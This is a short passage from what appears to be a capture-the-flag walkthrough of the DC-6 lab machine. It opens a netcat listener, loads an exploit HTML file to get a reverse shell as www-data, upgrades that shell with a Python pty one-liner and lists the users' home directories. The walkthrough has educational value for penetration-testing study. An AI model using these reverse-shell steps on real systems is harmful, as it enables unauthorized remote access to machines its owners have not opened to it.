


4.3 Open a netcat shell
a) On your Kali Linux terminal type the following.
$nc
-lvp 9999
b) Navigate to the following direction.
file:///home/kali/45274.html

c) On your Kali Machine you'll see the following.
Output:

c) Upgrade it with python.
Run the following commands on your “reverse shell”.
python -c
'import pty;pty.spawn("/bin/bash")'
Output:
www-data@dc-6:/var/www/html/wp-admin$
You got a “reverse shell”
d) Let's see what there is at “home”.
$www
-data@dc-6
:/
var
/
www
/
html
/
wp-admin$
cd
/
home
$ls
Output:
graham jens mark sarah
Index